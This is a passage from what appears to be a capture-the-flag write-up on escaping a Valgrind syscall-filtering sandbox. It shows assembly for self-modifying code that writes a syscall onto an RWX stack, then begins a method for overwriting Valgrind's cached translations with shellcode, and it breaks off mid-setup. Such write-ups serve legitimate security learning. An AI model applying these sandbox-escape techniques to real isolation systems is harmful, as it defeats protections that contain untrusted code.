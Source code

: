 Output:
```
Encountered illegal operation: Sys_syscall
```

This doesn't work because the Valgrind VM gets a chance to translate the instructions again on every indirect jump. (It isn't doing static translation at program start.)

Idea 2: Self-modifying code
----

Maybe if we modify our code as its running, we can write a syscall after the tool ran, which would thus go undetected?

I'm not 100% sure why this doesn't work if you do it in a RWX region, but it doesn't.

```py
# setup regs for write(1, "Hello world", 0x20)
mov eax, 1
mov rdi, 1
lea rsi, [rip+str]
mov rdx, 0x20
movabs r12, 0x0f0000000005c766
movq [rsp], r12
movabs r12, 0xcc909005
movq [rsp+8], r12

jmp rsp

str:
.string "Hello world!\n"
```

The code we write on the stack (which is RWX) is:
```
0:  66 c7 05 00 00 00 00    mov    WORD PTR [rip+0x0],0x50f        # 0x9
7:  0f 05
9:  90                      nop
a:  90                      nop
b:  cc                      int3
```

That works outside of the sandbox, but not inside the sandbox (we get SIGINT)... I guess valgrind doesn't support doing self-modifying code like this.

Idea 3: Modify the post-translated code
----

This ended up working.

Valgrind *caches* translations. So the plan is:

1. Execute a benign block, it will get translated
2. Overwrite the cached translation with shellcode
3. Jump back to the benign block. The cache will be used.

First, I setup something like this:
```py
# This is our target basic block
# It gets executed once at start
cool:
movq rsi, 0xfaceb00b
jmp start2

start2:

# big loop so we can attach gdb 
mov rdi, 100000
loop:
decq rdi
```